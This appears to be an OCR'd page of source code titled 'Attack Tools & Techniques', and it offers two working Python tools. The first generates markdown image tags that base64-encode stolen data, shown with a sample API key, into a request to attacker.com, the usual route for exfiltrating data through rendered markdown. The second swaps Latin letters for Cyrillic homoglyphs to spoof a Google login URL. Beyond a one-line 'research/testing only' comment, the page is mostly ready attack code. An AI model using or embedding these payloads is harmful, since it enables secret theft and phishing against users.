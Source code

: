 
## Attack Tools & Techniques

### 1. Markdown Exfiltration Payload Generator
```python
def generate_exfiltration_markdown(target_url, data_to_steal):
    """Generate markdown image tag for data exfiltration"""
    import base64

    # Encode data
    encoded = base64.b64encode(data_to_steal.encode()).decode()

    # Generate markdown image
    markdown = f"![normal_image_alt_text]({target_url}/collect?data={encoded})"

    return markdown

# Usage (research/testing only)
payload = generate_exfiltration_markdown(
    "https://attacker.com",
    "API_KEY=12345-ABCDE-FGHIJ"
)
print(payload)
# Output: ![normal_image_alt_text](https://attacker.com/collect?data=QVBJX0tFWT0xMjM0NS1BQkNERS1GR0hJSg==)
```

### 2. Homoglyph URL Generator
```python
def generate_homoglyph_url(legitimate_url):
    """Replace characters with visually similar Unicode characters"""
    homoglyphs = {
        'a': '\u0430',  # Cyrillic 'а'
        'e': '\u0435',  # Cyrillic 'е'
        'o': '\u043E',  # Cyrillic 'о'
        'p': '\u0440',  # Cyrillic 'р'
        'c': '\u0441',  # Cyrillic 'с'
        'x': '\u0445',  # Cyrillic 'х'
    }

    spoofed = legitimate_url
    for latin, cyrillic in homoglyphs.items():
        spoofed = spoofed.replace(latin, cyrillic, 1)  # Replace first occurrence

    return spoofed

# Example
legit = "https://accounts.google.com/login"
spoofed = generate_homoglyph_url(legit)
print(f"Legitimate: {legit}")
print(f"Spoofed:    {spoofed}")
print(f"Visually identical but different domains")
```
